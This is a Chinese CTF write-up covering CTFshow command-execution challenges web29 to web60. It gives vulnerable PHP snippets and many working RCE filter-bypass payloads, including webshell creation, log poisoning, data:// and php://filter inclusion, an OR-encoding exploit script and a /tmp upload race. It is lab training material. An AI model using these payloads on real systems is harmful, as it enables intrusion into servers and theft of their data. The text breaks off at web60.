+++
date = '2024-12-22T00:27:55+08:00'
title = 'CTFSHOW-命令执行-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++


#### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到通过eval函数可以执行php代码或者系统命令，其中过滤了flag。

进行绕过就行，解法很多

> 1. c=system("cat fl*g.php | grep  -E 'fl.g' ");
>
> 2. c=system("tac fl*g.php");
>
> 3. c=system("cat fl*g.php");（用cat要右键查看源代码才能看到回显）
>
> 4. c=system("cp fl*g.php a.txt ");（访问a.txt查看）
>
> 5. c=system('echo -e " <?php \n error_reporting(0); \n  \$c= \$_GET[\'c\']; \n eval(\$c); " > a.php'); //直接新建一个页面并写入一句话木马
>    （/a.php?c=system("tac flag.php");）
>
> 6. ?c=echo \`tac fla*\`;
>
>    ....

#### web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了关键字flag，system还有php，由于过滤了system我们需要使用其他的系统函数进行命令执行

payload:

> 1. c=printf(exec("cat%20fl*"));
>
> 2. c=echo exec("cat f\lag.p\hp");
>
> 3. c=show_source(scandir(".")[2]); (这个函数会返回一个包含当前目录下所有文件和目录项的数组)
>
> 4. c=highlight_file(next(array_reverse(scandir("."))));
>
> 5. c=passthru("tac fla*");
>
> 6. c=echo \`tac fla*\`;
>
> 7. c=$a=sys;$b=tem;$c=$a.$b;$c("tac fla*");*
>
> 8. c=echo shell_exec("tac fla*");
>
> 9. c=eval($_GET[1]);&1=system("tac flag.php");
>
> 10. c=passthru(base64_decode("Y2F0IGZsYWcucGhw=="));(base64绕过)
>
>     ......

#### web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'

payload:

> 1. c=eval($_GET[1]);&1=system("tac flag.php");
> 2. c=show_source(scandir(getcwd())[2]);
> 3. c=show_source(next(array_reverse(scandir(pos(localeconv())))));
> 4. c=passthru("tac%09fla*");
> 5. c=echo\`tac%09fla*\`;

#### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(

*过滤了空格可以用`${IFS}`和`%0a` 代替，分号可以用`?>`代替*

用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

得到的结果用base64解码一下就可以得到flag了

或者用日志注入：

> url/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
> `/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可`

#### web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词比上一题多了个双引号 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=

继续使用include构造payload：（wsm还能秒）

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web36

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-04 00:12:34
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-04 04:21:16
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }
  
}else{
  highlight_file(__FILE__);
}
```

屏蔽关键字 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]

不是哥们，数字也要屏蔽，那我改一下不就好了

继续使用include构造payload：

> url/?c=include$_GET[m]?>&m=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[m]?>&m=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web37

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

不是哥们，怎么还是文件包含

payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?c=data://text/plain,<?=system("tac%20fla*")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

这里会在我们传入的c后面拼接一段.php

我们只需要在加入<?php ?>那么php就只会执行中间的代码，后面的内容不会执行

故payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>

#### web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

这里要使用无参命令执行

payload：

> ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

关于无参命令执行的一些解释


#### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

过滤内容：`/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i`

这个题过滤了`$、+、-、^、~`使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或[运算符](https://so.csdn.net/so/search?q=运算符&spm=1001.2101.3001.7020)`|`。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。

大佬的脚本

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```

将两个文件放在同一个文件夹，运行exp.py即可

羽师傅nb



> 注意链接要用http不能用https

#### web42

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

这道题会将我们输入的命令与`" >/dev/null 2>&1"`进行拼接

> /dev/null 2>&1 意思是将标准输出和标准错误都重定向到 /dev/null 即不回显

导致我们无法成功执行

我们可以通过`%0a`截断的方式绕过

> tac fl*%0a

or

> ; //分号
> | //只执行后面那条命令
> || //只执行前面那条命令
> & //两条命令都会执行
> && //两条命令都会执行
>
> 过滤了分号和cat，可以用||和&来代替分号，tac代替cat
>
> 可构造playload:
> url/?c=tac flag.php||
> url/?c=tac flag.php%26
> 注意，这里的&需要url编码

#### web43

过滤了cat、；，

不是很影响

```
tac fl*%0a

or

tac flag.php||

...
//记得转url编码
```

#### web44

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`

小问题

```
tac fl*%0a

or

tac f*||

...
//记得转url编码
```

#### web45

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`和空格

可以用%09或$IFS$9代替空格

```
tac%09fl*%0a

or

tac%09f*||

or

echo$IFS`tac$IFS*`%0A

...
//记得转url编码
```

#### web46

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

 过滤有点多啊

> \;|cat|flag| |[0-9]|\\$|\*

但是事实上我们上题使用的方法并不会受到影响，因为%09是url编码，不会被当成数字过滤

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```

#### web47

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤这么多O.o？

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail

但是幸好我用的是tac

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```

#### web48

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤更多了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
//记得转url编码
```


#### web49

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%

虽然过滤了%但是是不影响我们传入的url编码的

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
```


#### web50

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26

坏，没法用%09代替空格，没法用?代替字符

不过幸好还有<和''

```
tac<fla%27%27g.php||
or
tac<fla%27%27g.php%0a
```

#### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/

怎么把我tac也过滤了

没事能绕过

```
t%27%27ac<fla%27%27g.php||
or
t%27%27ac<fla%27%27g.php%0a
```

#### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\<

我测怎么连< >都要过滤

别忘了还可以用$IFS

```
ca%27%27t$IFS/fla%27%27g||
or
ca%27%27t$IFS/fla%27%27g%0a
```

#### web52

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</

这题没有在后面进行命令拼接，其他和上一题一样

```
c%27%27at${IFS}fla%27%27g.php
```

#### web54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多命令,题目通过*使得只要是传入的内容出现如cat三个字符即可被匹配到，无法使用之前的字符拼接方法绕过

这题没过率通配符?

解一

```
/bin/?at${IFS}f???????
```

cat命令所在的路径是在/bin/目录下，所以这里相当于直接调用了cat文件执行命令，这里的cat可以看作命令，也是一个文件，所以通配符可以用在这上面（一开始还傻傻的换成uniq看能不能用hhh）。

bin下的命令：[Linux /bin 目录下命令简要说明 - 崔旗 - 博客园](https://www.cnblogs.com/cuiqi1314/articles/7339776.html)

同理bin目录下还存在more，所以这里的cat我们换成more也可以读取flag。
解二

```
vi${IFS}fla?.php 
or
c=uniq${IFS}f???.php //倒序的
or
grep${IFS}%27fla%27${IFS}f???????%0a
```


#### web55

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

```
\;|[a-z]|\`|\%|\x09|\x26|\>|\</
```

这题涉及到一个知识点

也就是**无字母数字的命令执行**

https://blog.csdn.net/qq_46091464/article/details/108513145

https://blog.csdn.net/qq_46091464/article/details/108557067

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

思路

> 1. shell下可以利用`.`来执行任意脚本
> 2. Linux文件名支持用glob通配符代替

我们可以通过post一个文件(文件里面的sh命令)，在上传的过程中，通过`.(点)`去执行执行这个文件。(形成了条件竞争)。一般来说这个文件在linux下面保存在`/tmp/php??????`一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）

> ```
> 注意：通过`.`去执行sh命令不需要有执行权限
> ```


1.构造post数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://f3a86e62-7402-4d1d-b950-0d6da4aa4eab.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

在上传的文件里面写入sh指令

```sh
#!/bin/sh
ls
```


2.抓包




3.构造执行sh命令的poc

详细解释poc的构造：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#glob

我们这里可以理解为我们这道题里面的干扰文件名都是由小写字母组成的，所有文件名都是小写，只有PHP生成的临时文件包含大写字母，那我们就可以构造出如下的poc

```
?c=.+/???/????????[@-[]
```

注：后面的`[@-[]`是linux下面的匹配符，是进行匹配的大写字母。


我们就来吧



修改一下指令内容即可得到flag


#### web56

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

> \;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\<

这题相比上一题多过滤了一个数字，不影响我们上题的解题方法

这里不再赘述

放个大佬的脚本

```python
import requests

while True:
	url = "http://a88c904d-6cd4-4eba-b7e9-4c37e0cf3a7d.chall.ctf.show/?c=.+/???/????????[@-[]"
	r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
	if r.text.find("flag") > 0:
		print(r.text)
		break

```

#### web57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤条件增加

> \;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/

这道题把`?`过滤了，但是我们可以看到

```
system("cat ".$c.".php");
```

这题会将我们传入的get参数进行拼接后再执行

题目里有个暗示

```
//flag in 36.php
```

也就是说我们要用符号构造出36

我们可以利用linux的$(())构造出36

在linux里面$(())=0，$((~ $(()) ))=-1

其中~符号表示取反，这里0的取反等于－1

也就是我们先将36个-1加起来再取反得到我们需要的36

payload:

```
c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```


从而得到flag


#### web58

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

```
c=highlight_file("flag.php");
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php //文件包含，得到的回显需要进行base64解码
c=show_source('flag.php');
```


#### web59

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

解法与上题一致，不再赘述

（没搞懂两题有什么区别）

#### web60

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
